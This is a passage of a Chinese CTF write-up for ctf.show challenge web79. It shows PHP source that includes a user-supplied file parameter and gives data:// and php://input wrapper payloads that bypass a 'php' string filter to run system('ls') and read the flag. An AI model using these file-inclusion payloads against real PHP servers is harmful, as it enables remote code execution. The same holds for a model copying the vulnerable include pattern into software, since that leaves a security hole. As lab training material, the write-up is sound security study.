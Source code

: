 直接cat可能没有回显，通过查看页面源码即可得到flag

![image-20230709235833002](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709235833002.png)

### [web79]php伪协议bypass

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

法一
替换了payload的中的php，可以构造一下payload：

```
http://58452d9a-e437-4cf8-b189-168ac79426dc.challenge.ctf.show/?file=data://text/plain,<?=system('ls');?>
```

读取flag.php

```
http://58452d9a-e437-4cf8-b189-168ac79426dc.challenge.ctf.show/?file=data://text/plain,<?=system('tac flag*');?>
```

法二

可以使用input协议

```
POST /?file=Php://input   HTTP/1.1

<?Php system("ls");?>
```


